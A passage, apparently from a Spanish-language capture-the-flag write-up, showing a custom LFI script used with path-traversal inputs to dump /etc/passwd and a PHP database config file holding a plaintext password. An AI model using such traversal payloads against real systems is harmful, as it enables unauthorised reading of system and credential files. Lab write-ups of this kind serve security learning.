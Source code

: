 ```
❯ ./lfi.py
Qué archivo quieres visualizar? ../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tss:x:103:109:TPM software stack,,,:/var/lib/tpm:/bin/false
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:105:111:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:107:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi:x:110:116:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
pulse:x:112:118:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:115:123::/var/lib/geoclue:/usr/sbin/nologin
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
Ahora podemos visualizar el archivo de "db_connect.php" que hay en includes

```php
❯ ./lfi.py
Qué archivo quieres visualizar? ../includes/db_connect.php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```
